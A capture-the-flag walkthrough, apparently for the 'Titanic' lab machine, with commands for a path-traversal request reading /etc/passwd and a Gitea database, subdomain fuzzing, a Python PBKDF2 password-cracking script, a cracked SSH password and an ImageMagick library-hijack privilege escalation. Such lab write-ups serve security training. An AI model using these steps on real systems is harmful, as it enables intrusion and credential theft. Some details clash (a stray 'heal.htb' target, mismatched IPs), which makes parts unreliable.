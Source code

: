 VPN 10.10.11.61

1.  INFO: Add IP to hosts file

RUN: sudo nano /etc/hosts

2.  RUN: **nmap -sV -Pn heal.htb**

Result: PORTS FOUND: 22, 80

![](images/media/image1.png)

3.  Add 10.10.11.55 titanic.htb to /etc/hosts file

4.  Activate Foxyproxy in Firefox

5.  Open <http://titanic.htb:80>

![](images/media/image2.png)

- Start Burpsuite, activate INTERCEPT

- Book a ticket on Website (push SUBMIT button)

6.  **Push** **FORWARD**

![](images/media/image3.png)

- Right click -\> **Send to Repeater**

Replace 1^st^ line with: **GET
/download?ticket=../../../../../../etc/passwd HTTP/1.1**

![](images/media/image4.png)

1^st^ line Replaced (Result: see screenshot below)

- Push SEND

![](images/media/image5.png)

Result

![](images/media/image6.png)

USER.txt FLAG

![](images/media/image7.png)

**SUBDOMAIN FUZZ**

1.  RUN: **ffuf -w
    /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u
    http://titanic.htb -H \"Host:FUZZ.titanic.htb\" -ac**

> ![](images/media/image8.png)
>
> Add **dev.titanic.htb** to **/etc/hosts** file

![](images/media/image9.png)

2.  Open [**http://dev.titanic.htb**](http://dev.titanic.htb)

> ![](images/media/image10.png)

3.  Gitea DB is generally in **/data/gitea.db**

**CRACK PASSWORD**

7.  Replace 1^st^ line with db

Search for USER: developer

![](images/media/image11.png)

8.  Password HASH (**blue highlighted**)

Salt (**red squares**)

![](images/media/image12.png)

9.  **INFO:** Use this script to crack (Target hash + salt) or use
    Hashcat

**Create script.py and put this inside**

import hashlib

import binascii



def pbkdf2_hash(password, salt, iterations=50000, dklen=50):

hash_value = hashlib.pbkdf2_hmac(

\'sha256\',

password.encode(\'utf-8\'),

salt,

iterations,

dklen

)

return hash_value



def find_matching_password(dictionary_file, target_hash, salt,
iterations=50000, dklen=50):

target_hash_bytes = binascii.unhexlify(target_hash)



with open(dictionary_file, \'r\', encoding=\'utf-8\') as file:

count = 0

for line in file:

password = line.strip()

hash_value = pbkdf2_hash(password, salt, iterations, dklen)

count += 1

print(f\"Checking_password {count}: {password}\")

if hash_value == target_hash_bytes:

print(f\"\\nFound password: {password}\")

return password

print(\"Password not found.\")

return None



salt = binascii.unhexlify(\'8bf3e3452b78544f8bee9400d6936d34\')

target_hash =
\'e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56\'

dictionary_file = \'/home/kali/Desktop/rockyou.txt\'

find_matching_password(dictionary_file, target_hash, salt)

Should look like this

![](images/media/image13.png)

10. Put Target-hash and salt in the script (lines 30,31)

11. Crack it with script.py RUN: **python3 script.py**

**PASSWORD: 25282528 found for USER: developer**

![](images/media/image14.png)

Password found

![](images/media/image15.png)

**ROOT**

1.  Login with User: **ssh <developer@titanic.htb>** Password:
    **25282528**

2.  You'll find a script under **/opt/scripts**

3.  Find vulnerability: Check version of **magick**

> RUN: **magick -version**
>
> **Source:**
> <https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8>

4.  According to identifiy_image.sh, **libxch.so.1** needs to be
    generated under **/opt/app/static/assets/images**

> **INFO:** This directory can be found, if you run: **find / -writable
> -type d 2\>/dev/null**
>
> ![](images/media/image16.png)
>
> This causes **magick** (under root permissions) to **read root.txt**

- Put it into a **Python-script**, e.g. **script.py** or paste it
  directly into the terminal, as below.

> ![](images/media/image17.png)

- List files in directory

![](images/media/image18.png)

- Modify original directory content. E.G. copy a jpg file.

![](images/media/image19.png)

- Check if **libxcb.so.1** and **root flag** is there

- Display **root flag**

![](images/media/image20.png)
